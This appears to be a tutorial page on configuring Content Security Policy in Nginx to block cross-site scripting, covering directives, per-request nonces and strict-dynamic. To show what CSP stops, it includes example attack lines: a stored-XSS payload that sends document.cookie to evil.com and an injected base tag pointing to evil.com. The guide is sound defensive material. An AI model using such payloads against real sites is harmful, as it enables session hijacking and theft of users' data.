





import Callout from "@components/ui/Callout.astro";
import { Tabs, TabPanel } from "@components/ui/tabs";
import CompareCode from "@components/ui/CompareCode.astro";
import BeforeAfter from "@components/ui/BeforeAfter.astro";
import FileContent from "@components/ui/FileContent.astro";
import Table from "@components/ui/Table.astro";
import TerminalCommand from "@components/ui/TerminalCommand.astro";
import TerminalOutput from "@components/ui/TerminalOutput.astro";
import Mermaid from "@components/ui/Mermaid.astro";
import Code from "@components/ui/Code.astro";
import TLDRSummary from "@components/ui/TLDRSummary.astro";
import CheckList from "@components/ui/CheckList.astro";
import StateNotice from "@components/ui/StateNotice.astro";
import BrowserSupport from "@components/ui/BrowserSupport.astro";
import StepByStep from "@components/ui/StepByStep.astro";
import Prerequisite from "@components/ui/Prerequisite.astro";
import DecisionTree from "@components/ui/DecisionTree.astro";
import Timeline from "@components/ui/Timeline.astro";
import DirectiveCard from "@components/ui/DirectiveCard.astro";
import Collapsible from "@components/ui/Collapsible.astro";
import CSPBuilder from "@components/ui/CSPBuilder.astro";
import HashCalculator from "@components/ui/HashCalculator.astro";

**Cross-Site Scripting (XSS)** remains one of the most devastating web vulnerabilities, consistently ranking in OWASP's Top 10 and accounting for approximately **40% of all reported web application security issues**. According to [Google's security research](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/), even websites with CSP often fail to implement it correctly—**94.72% of allowlist-based CSPs can be bypassed**.

**Content Security Policy (CSP)** is your browser-level defense against these attacks. Think of it as a strict "guest list" for your website—you explicitly tell the browser which resources (scripts, styles, images) are allowed to execute. Anything not on the list gets blocked, even if an attacker manages to inject malicious code.

This guide takes you from zero to a production-ready, **A+ rated** CSP configuration. You'll learn not just the "how" but the "why" behind each directive, understand modern bypass techniques and how to prevent them, and discover advanced topics like Trusted Types for DOM-based XSS prevention.

<TLDRSummary title="What You'll Learn">
  - **Start with one line**: `default-src 'self'` gives you immediate protection
  - **Use nonces, not allowlists**: 94.72% of allowlist CSPs can be bypassed; nonces are cryptographically secure
  - **Static sites can use nonces**: Nginx's `sub_filter` replaces placeholders at request time
  - **Adopt `strict-dynamic`**: Trust propagates from nonced scripts to dynamically loaded ones
  - **Include security hardening**: `object-src 'none'` and `base-uri 'none'` are mandatory for strict CSP
  - **Trusted Types**: The next evolution for DOM-based XSS prevention (CSP Level 3)
  - **Deploy safely**: Always start in report-only mode before enforcing
</TLDRSummary>

<Prerequisite title="Before You Start">
  - A web server running **Nginx 1.19+** (for `$request_id` nonce support)
  - Basic understanding of HTTP headers
  - Access to your Nginx configuration files
  - A website to protect (static or dynamic)
</Prerequisite>

---

## The Evolution of CSP

Content Security Policy has evolved significantly since its introduction. Understanding this evolution helps you appreciate why modern "strict CSP" approaches exist.

<Timeline events={[
  { date: "2010", title: "X-Content-Security-Policy", description: "Mozilla introduces the first CSP implementation as an experimental header", type: "default" },
  { date: "2012", title: "CSP Level 1", description: "W3C standardizes CSP with basic fetch directives (script-src, style-src, etc.)", type: "milestone" },
  { date: "2015", title: "CSP Level 2", description: "Introduces nonces, hashes, and frame-ancestors. 'unsafe-inline' can be overridden by nonces", type: "milestone" },
  { date: "2016", title: "Google Research", description: "Google publishes 'CSP Is Dead, Long Live CSP' showing 94.72% of allowlist CSPs are bypassable", type: "warning" },
  { date: "2018", title: "strict-dynamic", description: "New keyword allows trusted scripts to load dependencies without explicit allowlisting", type: "success" },
  { date: "2023", title: "CSP Level 3", description: "Introduces Trusted Types, report-to, and improved WebAssembly support", type: "milestone" },
  { date: "2024+", title: "Trusted Types Adoption", description: "Browser support matures; enterprises begin adopting for DOM-XSS prevention", type: "success" },
]} />

---

## Your First CSP in 5 Minutes

Let's get a working CSP right now. Open your Nginx configuration and add this single header:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # Your first CSP - allow resources only from your own domain
    add_header Content-Security-Policy "default-src 'self'" always;
    
    # ... rest of your config
}
```
</FileContent>

Test your configuration and reload Nginx:

<TerminalCommand>
```bash
sudo nginx -t && sudo systemctl reload nginx
```
</TerminalCommand>

**That's it!** You now have a working CSP. Open your browser's DevTools (F12 → Console) to see any violations:

<TerminalOutput title="Browser Console">
Refused to load the script 'https://cdn.example.com/analytics.js' because it 
violates the following Content Security Policy directive: "default-src 'self'".
</TerminalOutput>

<Callout type="keypoint" icon="mdi:lightbulb">
  **What just happened?**
  
  `default-src 'self'` tells the browser: "Only allow resources from this exact origin (same scheme, host, and port)." This immediately blocks:
  - External scripts (CDNs, analytics, tracking)
  - Inline scripts (`<script>alert('xss')</script>`)
  - Inline styles (`style="..."`)
  - External images, fonts, and frames
  
  This is intentionally restrictive—we'll selectively relax it next.
</Callout>

---

## Understanding CSP: The Whitelist Concept

CSP works by defining **what's allowed**, not what's blocked. Think of it as a VIP list at an exclusive event—only resources on the list get in.

<Mermaid caption="CSP acts as a gatekeeper for all browser resources" maxWidth="650px">

</Mermaid>

### Why CSP Matters: The Defense-in-Depth Principle

Without CSP, if an attacker injects `<script>stealCookies()</script>` into your page (via a comment form, URL parameter, or database), the browser happily executes it—there's no way to distinguish legitimate scripts from malicious ones.

With CSP, the browser checks every resource against your policy **before** execution. If inline scripts aren't explicitly allowed, the attack is neutralized at the browser level.

<Callout type="keypoint" icon="mdi:shield">
  **CSP is a second line of defense.**
  
  CSP doesn't prevent injection from happening—you should still sanitize user input and use parameterized queries. But when input validation fails (and it will eventually), CSP catches the attack at the browser level, preventing execution.
</Callout>

---

## How XSS Attacks Work (and How CSP Stops Them)

To understand CSP's value, let's trace a typical XSS attack:

<Mermaid caption="XSS attack flow without CSP protection" maxWidth="750px">

</Mermaid>

### Step-by-Step Breakdown

1. **Injection**: Attacker submits a comment containing:
   ```html
   <script>fetch('https://evil.com?c='+document.cookie)</script>
   ```

2. **Storage**: The website stores this in the database without proper sanitization

3. **Delivery**: When another user views the page, the malicious script is served as part of the HTML

4. **Execution**: The browser sees a `<script>` tag and executes it—no questions asked

5. **Exfiltration**: The script sends session cookies to the attacker's server

### How CSP Breaks the Chain

**With CSP (`script-src 'self'`)**, step 4 fails. The browser checks: "Is this an inline script? Is `'unsafe-inline'` allowed?" Since inline scripts are blocked by default, the attack is neutralized:

<TerminalOutput title="Browser Console with CSP">
Refused to execute inline script because it violates the following 
Content Security Policy directive: "script-src 'self'". Either the 
'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') 
is required to enable inline execution.
</TerminalOutput>

---

## Attack Vectors CSP Prevents

CSP addresses multiple threat categories. Here's how different directives create defense-in-depth:

<Table title="Common Threats Mitigated by CSP">
  <thead>
    <tr>
      <th>Threat</th>
      <th>Attack Vector</th>
      <th>CSP Defense</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>Reflected XSS</strong></td>
      <td>Scripts injected via URL parameters</td>
      <td><code>script-src</code> without <code>'unsafe-inline'</code></td>
    </tr>
    <tr>
      <td><strong>Stored XSS</strong></td>
      <td>Scripts injected via database content</td>
      <td><code>script-src</code> with nonces/hashes</td>
    </tr>
    <tr>
      <td><strong>DOM-based XSS</strong></td>
      <td><code>eval()</code>, <code>innerHTML</code> abuse</td>
      <td><code>script-src</code> without <code>'unsafe-eval'</code> + Trusted Types</td>
    </tr>
    <tr>
      <td><strong>Data exfiltration</strong></td>
      <td>XHR/fetch to attacker servers</td>
      <td><code>connect-src 'self'</code></td>
    </tr>
    <tr>
      <td><strong>Clickjacking</strong></td>
      <td>Site framed by malicious page</td>
      <td><code>frame-ancestors 'none'</code></td>
    </tr>
    <tr>
      <td><strong>Mixed content</strong></td>
      <td>HTTP resources on HTTPS pages</td>
      <td><code>upgrade-insecure-requests</code></td>
    </tr>
    <tr>
      <td><strong>Plugin attacks</strong></td>
      <td>Flash, Java, PDF exploits</td>
      <td><code>object-src 'none'</code></td>
    </tr>
    <tr>
      <td><strong>Form hijacking</strong></td>
      <td>Injected forms to steal credentials</td>
      <td><code>form-action 'self'</code></td>
    </tr>
    <tr>
      <td><strong>Base tag injection</strong></td>
      <td>Redirecting relative URLs to attacker</td>
      <td><code>base-uri 'none'</code></td>
    </tr>
  </tbody>
</Table>

---

## CSP Directives: Learn by Doing

Instead of memorizing tables, let's learn each directive by adding it to our policy progressively.

### 1. `default-src`: The Fallback

This is the catch-all directive. If you don't specify a directive for a resource type, `default-src` applies.

<DirectiveCard
  name="default-src"
  syntax="default-src <source-list>"
  description="Fallback for all unspecified fetch directives. Set this restrictively and add specific directives as needed."
  defaultValue="* (allow all)"
  since="CSP Level 1"
  mdnUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src"
>
  **Best practice:** Set `default-src 'none'` and explicitly allow what you need. This is the "deny by default" approach that security professionals recommend.
</DirectiveCard>

<Code lang="nginx" title="default-src directive">
```nginx
# Block everything by default - explicitly allow what you need
Content-Security-Policy: default-src 'none';
```
</Code>

### 2. `script-src`: The Most Critical Directive

This controls which scripts can execute on your page. Get this wrong and your entire CSP is effectively useless.

<DirectiveCard
  name="script-src"
  syntax="script-src <source-list>"
  description="Specifies valid sources for JavaScript. This is the most important directive for XSS protection."
  defaultValue="Falls back to default-src"
  since="CSP Level 1"
  mdnUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src"
/>

<Table title="script-src Source Values">
  <thead>
    <tr>
      <th>Value</th>
      <th>Meaning</th>
      <th>Security</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>'self'</code></td>
      <td>Same origin only (scheme + host + port)</td>
      <td data-status="success">Safe</td>
    </tr>
    <tr>
      <td><code>'none'</code></td>
      <td>Block all scripts entirely</td>
      <td data-status="success">Maximum</td>
    </tr>
    <tr>
      <td><code>'nonce-&#123;random&#125;'</code></td>
      <td>Allow scripts with matching nonce attribute</td>
      <td data-status="success">Recommended</td>
    </tr>
    <tr>
      <td><code>'sha256-&#123;hash&#125;'</code></td>
      <td>Allow scripts with matching content hash</td>
      <td data-status="success">Strong</td>
    </tr>
    <tr>
      <td><code>'strict-dynamic'</code></td>
      <td>Trust propagates to dynamically loaded scripts</td>
      <td data-status="success">Strong</td>
    </tr>
    <tr>
      <td><code>https://cdn.example.com</code></td>
      <td>Allow scripts from specific domain</td>
      <td data-status="warning">Weak (bypassable)</td>
    </tr>
    <tr>
      <td><code>'unsafe-inline'</code></td>
      <td>Allow all inline scripts</td>
      <td data-status="error">Dangerous</td>
    </tr>
    <tr>
      <td><code>'unsafe-eval'</code></td>
      <td>Allow <code>eval()</code>, <code>Function()</code>, etc.</td>
      <td data-status="error">Dangerous</td>
    </tr>
  </tbody>
</Table>

<Callout type="warning">
  **Never use `'unsafe-inline'` for scripts in production.** It allows attackers to execute any injected inline script—the exact attack CSP is meant to prevent. If you see this in your policy, your CSP provides essentially zero XSS protection.
</Callout>

### 3. `style-src`: CSS Control

<DirectiveCard
  name="style-src"
  syntax="style-src <source-list>"
  description="Specifies valid sources for stylesheets. Less critical than script-src but still important for comprehensive protection."
  defaultValue="Falls back to default-src"
  since="CSP Level 1"
  mdnUrl="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/style-src"
/>

<Code lang="nginx" title="style-src with unsafe-inline">
```nginx
# Allow styles from same origin + inline styles
style-src 'self' 'unsafe-inline';
```
</Code>

<Callout type="info">
  **Why `'unsafe-inline'` for styles is often acceptable:**
  
  Unlike scripts, inline styles have a much smaller attack surface. Many CSS-in-JS libraries and frameworks require inline styles for hydration. While you *can* use nonces/hashes for styles too, the security benefit is smaller compared to the implementation complexity.
</Callout>

### 4. Resource Directives

<Tabs>
  <TabPanel label="img-src">
    ```nginx
    # Allow images from same origin + data: URIs (for base64)
    img-src 'self' data:;
    ```
    
    `data:` is often needed for base64-encoded images, SVG icons, or placeholder images.
  </TabPanel>
  <TabPanel label="font-src">
    ```nginx
    # Allow fonts from same origin only
    font-src 'self';
    
    # Or allow Google Fonts
    font-src 'self' https://fonts.gstatic.com;
    ```
  </TabPanel>
  <TabPanel label="connect-src">
    ```nginx
    # Restrict XHR/Fetch/WebSocket destinations
    # Critical for preventing data exfiltration
    connect-src 'self' https://api.example.com;
    ```
    
    This controls where JavaScript can send data. Critical for preventing stolen data from being sent to attacker servers.
  </TabPanel>
  <TabPanel label="media-src">
    ```nginx
    # Audio and video sources
    media-src 'self';
    ```
  </TabPanel>
</Tabs>

### 5. Security Hardening Directives

These are often overlooked but are **required for strict CSP**:

#### `object-src 'none'` — Block Plugins

Plugins like Flash and Java have historically been major vulnerability vectors. Although Flash is deprecated, blocking `object-src` prevents any plugin-based attacks:

<Code lang="nginx" title="object-src directive">
```nginx
# Block all plugins (Flash, Java, Silverlight, PDF viewers)
object-src 'none';
```
</Code>

<Callout type="keypoint">
  **Required for strict CSP.** Without `object-src 'none'`, attackers could potentially use plugin vulnerabilities to bypass your script restrictions.
</Callout>

#### `base-uri 'none'` — Prevent Base Tag Injection

The `<base>` tag defines a base URL for all relative URLs in a document. If an attacker injects a `<base>` tag, they can redirect all your relative URLs to their server:

<BeforeAfter beforeLabel="Attack Without base-uri" afterLabel="With base-uri 'none'">
  <div slot="before">
    ```html
    <!-- Attacker injects this -->
    <base href="https://evil.com/">
    
    <!-- Your existing code now loads from attacker! -->
    <script src="/js/app.js"></script>
    <!-- Loads https://evil.com/js/app.js -->
    ```
  </div>
  <div slot="after">
    ```http
    Content-Security-Policy: base-uri 'none'
    
    <!-- Injection attempt blocked! -->
    Refused to set the document's base URI to 
    'https://evil.com/' because it violates CSP.
    ```
  </div>
</BeforeAfter>

#### `frame-ancestors 'none'` — Clickjacking Protection

Prevents your site from being embedded in iframes on other sites:

<Code lang="nginx" title="frame-ancestors directive">
```nginx
# Don't allow embedding anywhere (replaces X-Frame-Options)
frame-ancestors 'none';

# Or allow embedding only on your own domain
frame-ancestors 'self';
```
</Code>

<Callout type="tip">
  `frame-ancestors` is more flexible than the older `X-Frame-Options` header and should be preferred. However, for maximum browser compatibility, you can set both.
</Callout>

#### `form-action 'self'` — Control Form Submissions

Prevents attackers from injecting forms that submit data to their servers:

<Code lang="nginx" title="form-action directive">
```nginx
# Forms can only submit to your own domain
form-action 'self';
```
</Code>

---

## Building Your CSP Layer by Layer

Rather than writing a perfect CSP in one go (which leads to frustration), let's build progressively. Each layer adds protection, and you can stop at any level based on your needs.

<Table title="CSP Security Levels">
  <thead>
    <tr>
      <th>Level</th>
      <th>Policy Addition</th>
      <th>Protection Added</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>0</strong></td>
      <td>No CSP</td>
      <td data-status="error">None—wide open to XSS</td>
    </tr>
    <tr>
      <td><strong>1</strong></td>
      <td><code>default-src 'none'</code></td>
      <td>Blocks everything by default</td>
    </tr>
    <tr>
      <td><strong>2</strong></td>
      <td><code>+ script-src 'self'</code></td>
      <td>Only your scripts run</td>
    </tr>
    <tr>
      <td><strong>3</strong></td>
      <td><code>+ style-src, img-src, font-src</code></td>
      <td>Controls visual resources</td>
    </tr>
    <tr>
      <td><strong>4</strong></td>
      <td><code>+ connect-src 'self'; object-src 'none'</code></td>
      <td>Limits data exfiltration, blocks plugins</td>
    </tr>
    <tr>
      <td><strong>5</strong></td>
      <td><code>+ base-uri 'none'; frame-ancestors 'none'</code></td>
      <td>Prevents injection & clickjacking</td>
    </tr>
    <tr>
      <td><strong>6</strong></td>
      <td><code>+ form-action 'self'; upgrade-insecure-requests</code></td>
      <td data-status="success">Full baseline protection</td>
    </tr>
  </tbody>
</Table>

### Level 6: A Solid Baseline CSP

Here's what Level 6 looks like in practice:

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
add_header Content-Security-Policy "
    default-src 'none';
    script-src 'self';
    style-src 'self' 'unsafe-inline';
    img-src 'self' data:;
    font-src 'self';
    connect-src 'self';
    object-src 'none';
    base-uri 'none';
    frame-ancestors 'none';
    form-action 'self';
    upgrade-insecure-requests;
" always;
```
</FileContent>

<Callout type="success">
  **Checkpoint:** This CSP protects against most XSS attacks, limits data exfiltration, prevents clickjacking, and closes plugin-based attack vectors.
  
  **However**, there's one significant limitation—inline scripts are blocked. If your site uses inline JavaScript (theme detection, analytics, hydration), it won't work. The next section solves this.
</Callout>

---

## The Inline Script Challenge

Most websites have inline scripts like this:

<Code lang="html" title="Common inline script">
```html
<script>
  // Theme detection - runs before page renders
  const theme = localStorage.getItem('theme') || 'system';
  document.documentElement.classList.add(theme);
</script>
```
</Code>

With `script-src 'self'`, this is blocked. You have **three solutions**:

<DecisionTree question="Which solution should I use for inline scripts?">
  <details>
    <summary>External Files (Simplest)</summary>
    <p>Move inline code to separate <code>.js</code> files. Best for simple cases where the script doesn't need to run before the main bundle.</p>
    <p><strong>Pros:</strong> No nonces/hashes needed, cacheable</p>
    <p><strong>Cons:</strong> Additional HTTP request, can't run synchronously before render</p>
  </details>
  <details>
    <summary>Hashes (Static Content)</summary>
    <p>Generate a SHA-256 hash of your script content and add it to CSP. Best for scripts that never change.</p>
    <p><strong>Pros:</strong> Works for static content, no server changes needed</p>
    <p><strong>Cons:</strong> Must regenerate hash when script changes, even for whitespace</p>
  </details>
  <details>
    <summary>Nonces (Recommended)</summary>
    <p>Add a unique random token to both the CSP header and script tags. Best for dynamic content and maximum security.</p>
    <p><strong>Pros:</strong> Most flexible, recommended by Google security team</p>
    <p><strong>Cons:</strong> Requires server-side nonce generation (or Nginx trick for static sites)</p>
  </details>
</DecisionTree>

### Solution 1: Move to External Files

The cleanest approach—move inline code to `.js` files:

<CompareCode badTitle="Inline (blocked by CSP)" goodTitle="External (allowed)">
  <div slot="bad">
    ```html
    <head>
      <script>
        initTheme();
      </script>
    </head>
    ```
  </div>
  <div slot="good">
    ```html
    <head>
      <script src="/js/theme.js"></script>
    </head>
    ```
  </div>
</CompareCode>

### Solution 2: Use Hashes

Generate a SHA-256 hash of your script content and add it to your CSP. Try it yourself:

<HashCalculator
  title="Generate Your Script Hash"
  defaultCode="const theme = localStorage.getItem('theme') || 'system';
document.documentElement.classList.add(theme);"
/>

<Callout type="tip">
  **How to get the hash from browser:** When CSP blocks a script, the browser console shows the required hash:
  
  > Either the 'unsafe-inline' keyword, a hash ('sha256-RFWPLDbv2BY...'), or a nonce is required.
  
  Copy that hash directly into your CSP.
</Callout>

**Limitation:** You must regenerate the hash whenever the script content changes—even adding a space will invalidate it.

### Solution 3: Use Nonces

Add a random token to both the CSP header and your script tags:

<Tabs>
  <TabPanel label="CSP Header">
    ```nginx
    Content-Security-Policy: 
      script-src 'self' 'nonce-abc123def456';
    ```
  </TabPanel>
  <TabPanel label="HTML">
    ```html
    <script nonce="abc123def456">
      const theme = localStorage.getItem('theme');
      document.documentElement.classList.add(theme);
    </script>
    ```
  </TabPanel>
</Tabs>

**Critical:** The nonce must be:
- **Cryptographically random** (at least 128 bits / 16 bytes)
- **Unique per request** (never reuse nonces)
- **Base64 encoded**

---

## Nonces for Static Sites: The Nginx Trick

Here's the challenge: Static Site Generators (Astro, Next.js, Hugo) build HTML at **build time**. But nonces must be unique per **request**. How can static HTML contain dynamic nonces?

### The Solution: Placeholder Substitution

<Mermaid caption="Nginx nonce injection for static sites" maxWidth="650px">

</Mermaid>

### Step 1: Use Placeholders in Your Templates

In your templates, use a placeholder that Nginx will replace:

<FileContent filename="src/layouts/BaseLayout.astro" icon="simple-icons:astro">
```astro
---
// Layout component
---
<html>
  <head>
    <!-- Nginx will replace this placeholder -->
    <script is:inline nonce="CSP_NONCE_NGINX">
      const theme = localStorage.getItem('theme') || 'system';
      document.documentElement.dataset.theme = theme;
    </script>
  </head>
  <body>
    <slot />
  </body>
</html>
```
</FileContent>

### Step 2: Configure Nginx

<FileContent filename="/etc/nginx/sites-available/example.com" icon="devicon:nginx">
```nginx
server {
    listen 443 ssl;
    server_name example.com;
    
    # ================================================
    # STEP 1: Generate unique nonce per request
    # ================================================
    # $request_id = 32-char hex string (128 bits entropy)
    set $cspNonce $request_id;

    # ================================================
    # STEP 2: Replace placeholder with real nonce
    # ================================================
    sub_filter_once off;  # Replace ALL occurrences
    sub_filter_types text/html text/css application/javascript;
    sub_filter CSP_NONCE_NGINX $cspNonce;

    # ================================================
    # STEP 3: Set CSP header with same nonce
    # ================================================
    add_header Content-Security-Policy "
        default-src 'none';
        script-src 'self' 'nonce-$cspNonce' 'strict-dynamic';
        style-src 'self' 'unsafe-inline';
        img-src 'self' data:;
        font-src 'self';
        connect-src 'self';
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
        form-action 'self';
        upgrade-insecure-requests;
    " always;
    
    # ... rest of config
}
```
</FileContent>

<Callout type="info" icon="mdi:information">
  **Why `$request_id` is cryptographically safe:**
  
  Nginx's `$request_id` provides:
  - **128 bits** of entropy (32 hexadecimal characters)
  - **Unique per request** — freshly generated each time
  - **Unpredictable** — derived from system randomness
  
  This exceeds CSP's recommended minimum entropy for nonces.
</Callout>

### What the Browser Sees

<Tabs>
  <TabPanel label="1. On Disk">
    ```html
    <!-- Static file on disk -->
    <script nonce="CSP_NONCE_NGINX">
      const theme = localStorage.getItem('theme');
    </script>
    ```
  </TabPanel>
  <TabPanel label="2. HTTP Header">
    ```http
    HTTP/2 200 OK
    Content-Security-Policy: script-src 'nonce-a1b2c3d4e5f6...' ...
    ```
  </TabPanel>
  <TabPanel label="3. HTML Received">
    ```html
    <!-- What browser actually receives -->
    <script nonce="a1b2c3d4e5f6...">
      const theme = localStorage.getItem('theme');
    </script>
    ```
  </TabPanel>
</Tabs>

---

## Going Strict with `'strict-dynamic'`

The `'strict-dynamic'` keyword is a game-changer: it allows scripts loaded by trusted scripts to also execute, without needing their own nonces.

